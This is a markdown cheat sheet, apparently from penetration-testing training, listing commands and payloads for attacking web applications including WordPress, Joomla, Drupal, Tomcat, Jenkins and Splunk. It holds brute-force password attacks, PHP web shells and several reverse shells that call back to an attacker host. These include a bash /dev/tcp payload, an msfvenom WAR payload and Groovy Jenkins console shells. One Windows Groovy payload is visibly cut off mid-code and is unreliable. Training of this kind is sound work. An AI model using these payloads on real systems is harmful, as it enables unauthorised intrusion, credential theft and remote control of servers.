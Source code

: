 | Command | Description |
|---------|-------------|
| `sudo vim /etc/hosts` | Opens the `/etc/hosts` with vim to start adding hostnames. |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list` | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats. |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>` | Runs eyewitness using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`<nameofdirectorytobecreated>`). |
| `cat web_discovery.xml | ./aquatone -nmap` | Concatenates the contents of nmap scan output (`web_discovery.xml`) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output. |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate` | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge. |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>` | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`). |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id` | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell. |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");` | PHP code that will execute a reverse shell on a Linux-based system. |
| `droopescan scan joomla --url http://<domainnameoripaddress>` | Runs droopescan against a joomla site located at the specified url. |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>` | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames. |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>` | PHP code that will allow for web shell access on a vulnerable drupal site. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"` | Uses curl to navigate to php web shell file and run system commands (=id) on the target. |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt` | Gobuster powered directory brute forcing attack referencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`). |
| `auxiliary/scanner/http/tomcat_mgr_login` | Useful Metasploit scanner module used to perform a bruteforce login attack against a tomcat site. |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr_brute.py using python3 against the specified website starts in the /manager directory and references a specified user or userlist as well as a specified password or password list. |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war` | Generates a jsp-based reverse shell payload in the form of a .war file utilizing msfvenom. |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>` | Nmap scan useful in enumerating Apache Tomcat and AJP services. |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()` | Groovy-based reverse shell payload/code that can work with admin access to the Script Console of a Jenkins site. Will work when the underlying OS is Linux. |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}")` | Groovy-based payload/code that can work with admin access to the Script Console of a Jenkins site. This will allow webshell access and to execute commands on the underlying Windows system. |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);` | Groovy-based reverse shell payload/code that can work with admin access to the Script Console of a Jenkins site. Will work when the underlying OS is Windows. |
| `reverse_shell_splunk` | A simple Splunk package for obtaining revershells on Windows and Linux systems. |
